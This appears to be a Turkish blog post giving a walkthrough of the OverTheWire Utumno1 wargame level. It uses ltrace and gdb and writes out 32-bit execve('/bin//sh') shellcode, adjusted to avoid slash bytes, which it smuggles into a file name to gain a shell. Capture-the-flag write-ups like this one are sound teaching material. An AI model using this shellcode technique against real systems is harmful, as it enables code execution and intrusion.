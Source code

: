 ```yaml
---
layout: post
title: "Overthewire - Utumno0 Çözümü"
subtitle: "Shellcode mevzuları"
date: 2019-08-20 19:20:13 +0300
background: '/img/posts/bg.png'
---
```


# Overthewire Çözümleri - Utumno1

## İpucu
- Shellcode kurnazlıkları

## Çözüm

Programı çalıştırdığımızda hiçbir çıktı vermiyor. **ltrace** ile çalıştırıp sonuca bakalım.

```
__libc_start_main(0x80484a5, 1, 0xffffd674, 0x8048530 <unfinished ...>
exit(1 <no return ...>
+++ exited (status 1) +++
```

Bir de arguman vererek deneyelim.

```sh
__libc_start_main(0x80484a5, 2, 0xffffd674, 0x8048530 <unfinished ...>
opendir("asd")                                           = 0
exit(1 <no return ...>
+++ exited (status 1) +++
```

Gördüğünüz üzere "asd" dosyasını açmaya çalıştı. Hemen kendimize bir dosya oluşturalım ve orada programı denemeye devam edelim.

```sh
cd `mktemp -d`
ltrace /utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Çıktı:

```sh
__libc_start_main(0x80484a5, 2, 0xffffd664, 0x8048530 <unfinished ...>
opendir("/tmp/tmp.OIbeV24uHn")                           = 0x804a008
readdir(0x804a008)                                       = 0x804a024
strncmp("sh_", ".", 3)                                   = 69
readdir(0x804a008)                                       = 0x804a034
strncmp("sh_", "..", 3)                                  = 69
readdir(0x804a008)                                       = 0
+++ exited (status 0) +++
```

Gördüğünüz üzere program "sh_" adında bir dosya arıyor. Oluşturalım.

```sh
touch sh_
ltrace /utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Çıktı:

```sh
...
strncmp("sh_", "sh_", 3)                                 = 0
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Segmentation fault aldık. Artık **gdb**'ye geçmenin zamanı geldi.

**main** fonksiyonunu disassemble ederek analize başlayalım.

```sh
disas main
```

Çıktı:

```asm
...
   0x080484f9 <+84>:	mov    eax,DWORD PTR [ebp-0x8]
   0x080484fc <+87>:	add    eax,0xb
   0x080484ff <+90>:	add    eax,0x3
   0x08048502 <+93>:	push   eax
   0x08048503 <+94>:	call   0x804848b <run>
...
```

Run fonksiyonuna bakalım.

```asm
   0x0804848b <+0>:	push   ebp
   0x0804848c <+1>:	mov    ebp,esp
   0x0804848e <+3>:	sub    esp,0x4
   0x08048491 <+6>:	lea    eax,[ebp-0x4]
   0x08048494 <+9>:	add    eax,0x8
   0x08048497 <+12>:	mov    DWORD PTR [ebp-0x4],eax
   0x0804849a <+15>:	mov    eax,DWORD PTR [ebp-0x4]
   0x0804849d <+18>:	mov    edx,DWORD PTR [ebp+0x8]
   0x080484a0 <+21>:	mov    DWORD PTR [eax],edx
   0x080484a2 <+23>:	nop
   0x080484a3 <+24>:	leave  
   0x080484a4 <+25>:	ret 
```

**run** fonksiyonunda dikkatimi çeken ilk şey register'ların ve stack'in değerlerini değiştirmek dışında hiçbir şey yapılmıyor. Yani program stack'i **ret** çalıştığında return adresinden farklı bir yere dönecek şekilde ayarlıyor olabilir.

Neler olduğunu anlamak için **0x080484fc** ve **0x080484a3** adreslerine 
breakpoint koyup çalıştıralım.

```
break *0x080484fc
break *0x080484a3
r `pwd`
```

İlk breakpoint'ten **run** fonksiyonuna kadar **eax**'in değerlerine bakalım.

```
(gdb) i r eax
eax            0x804a054	134520916
(gdb) x/s $eax
0x804a054:	"\225"
(gdb) ni
0x080484ff	49	in utumno1.c
(gdb) x/s $eax
0x804a05f:	"sh_"
(gdb) ni
0x08048502	49	in utumno1.c
(gdb) x/s $eax
0x804a062:	""
(gdb) 
```

Görüldüğü üzere öncelikle "sh_"'ın, sonrasında da "sh_"'ın 3 karakter sağının adresi **eax**'e atılıyor. Artık **run** fonksiyonuna verilen parametreyi bildiğimize göre devam edelim.

```
(gdb) x/8wx $esp
0xffffd590:	0xffffd598	0xffffd5a8	0x0804a062	0x0804a062
0xffffd5a0:	0x0804a054	0x0804a008	0x00000000	0xf7e2a286
(gdb) ni
0x080484a4	27	in utumno1.c
(gdb) ni
0x0804a062 in ?? ()
```

Aynen tahmin ettiğimiz gibi, program çağrıldığı adrese dönmek yerine
**0x0804a062** adresine dönüyor. Hatırlarsanız ilk breakpoint'te **eax** in değeri **0x804a054** idi. Sonrasında program bu değer üzerine **0xb** ve **0x3** ekliyordu. 

**0x804a054** + **0xb** + **0x3** = **0x804a062**

Demek ki program öncelikle ismi **sh_** ile başlayan bir dosya arıyor, sonra da bu dosyanın adını 3. karakterden itibaren çalıştırıyor. 

O zaman biz de bu dosyanın ismine 3. karakterden itibaren **shellcode** koyup **/bin/sh** ı çalıştırabiliriz.

Çok beğenerek okuduğum "Hacking the art of exploitation" kitabından alıntılayarak shellcode'umuzu anlatacağım.

```
BITS 32

xor eax, eax     ; eax'i sıfır yap
push eax         ; stack'e stringi sonlandırmak için \0 at
push 0x68732f2f  ; stack'e "//sh" at
push 0x6e69622f  ; stack'e "/bin" at
mov ebx, esp     ; esp'den "/bin//sh" adresini alıp ebp'e koy
push eax         ; stack'e tekrar 0 at
mov edx, esp     ; envp değişkeni için boş bir array veriyoruz
push ebx         ; string adresini stack'e at
mov ecx, esp     ; argv arrayini ecx'e taşıyoruz
mov al, 11       ; syscall 11
int 0x80
```

Fakat yukarıda gördüğümüz kodu derleyip dosya oluşturmaya çalıştığımızda şu hatayı alıyoruz:

```sh
nasm code
touch sh_`cat nasm.out`
```

Çıktı:

```
touch: cannot touch 'sh_1'$'\300''Ph//shh/bin'$'\211\343''P'$'\211\342''S'$'\211\341\260\v''̀': No such file or directory
```

Çıktıda görebiliriz ki "/" karakteri var ve bunun bir dosya ismi değil de dosya yolu olduğunu zannettiğinden sistem dosya bulunamadı hatası veriliyor. Linux sistemlerinde dosya adı "/" içeremiyor.

Bunu çok basit bir yöntemle atlatabiliriz. Düşünürsek derlenmiş kodumuzun "/" karakterini barındırmasının sebebi **push 0x68732f2f** ve **push 0x6e69622f** satırları. Biz **2f**'i şu şekilde yazıyla belirtmeden de stack'e koyabiliriz.

```
mov eax, 0x57621e1e
add eax, 0x11111111
push eax
```

Yaptığımız şey **0x68732f2f**'nın **0x11111111** eksiğini **eax**'e atıp sonrasında da **eax**'in değerini **0x11111111** arttırmak, sonra da onu stack'e atmak. Böylece aynı değeri elde etmiş oluyoruz.

Kodun tamamı:

```asm
BITS 32

xor eax, eax
push eax
mov eax, 0x57621e1e
add eax, 0x11111111
push eax
mov eax, 0x5d58511e
add eax, 0x11111111
push eax
xor eax, eax   ; eax'i tekrardan sıfırladık
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```

```sh
nasm code
touch sh_`cat nasm.out`
/utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Sonuç:

```sh
$ whoami
utumno2
```

Burada da shellcode yazmayı biliyor olmanın önemini gördük. Maalesef düz bir mantıkla yazılan assembly kodları çoğu zaman null karakter dediğimiz **00** karakterini içerdiğinden shellcode yazmak ayrı bir özen gerektiriyor.

## Kaynaklar

Kitap: **Hacking- The Art of Exploitation**